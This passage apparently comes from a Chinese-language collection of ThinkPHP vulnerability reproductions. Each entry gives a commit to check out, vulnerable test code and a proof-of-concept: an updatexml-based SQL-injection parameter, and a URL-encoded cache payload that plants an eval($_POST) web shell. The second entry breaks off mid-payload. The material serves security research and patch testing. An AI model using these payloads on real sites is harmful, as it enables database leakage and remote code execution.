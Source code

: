   >测试方法
  >
  >```bash
  >git checkout 02f8e8a
  >```
  >
  >测试代码
  >
  >```php
  >public  function testsql()
  >{
  >   $ids = input('ids/a');
  >   $result = db('user')->where('id', 'in', $ids)->select();
  >   var_dump($result);
  >}
  >```
  >
  >POC
  >
  >```php
  >testsql?ids[0,updatexml(0,concat(0xa,user()),0)]=1231
  >```
  >
  >结果
  >
  >![sp170704_021313.png](https://www.leavesongs.com/media/attachment/2017/07/04/2d22af8c-04ec-4b7d-9fb3-0709ae5c4ab0.679dfef54084.png)
  
- ThinkPHP5.0.10-3.2.3 缓存函数设计缺陷可导致Getshell 

  | 标题     | ThinkPHP5.0.10-3.2.3 缓存函数设计缺陷可导致Getshell |
  | -------- | --------------------------------------------------- |
  | 时间     | 2017-08-09                                          |
  | 版本     | < 5.0.11                                            |
  | 文章链接 | <https://xz.aliyun.com/t/99>                        |
  
    >测试方法
    >
    >```bash
    >git checkout 094dde5
    >```
    >
    >测试代码
    >
    >```php
    >public function add()
    >{
    >    $user = input('post.');
    >    $m=db('user')->where(['id'=> 1])->insert($user);
    >}
    >
    >public function cache()
    >{
    >    $m = db('user')->select();
    >    Cache::set('name',$m,3600);
    >}
    >```
    >
    >POC
    >
    >```php
    >post data:
    >    username=%2F%2F%0D%0A%24a%3Deval(%24_POST%5B%27a%27%5D)%3B%23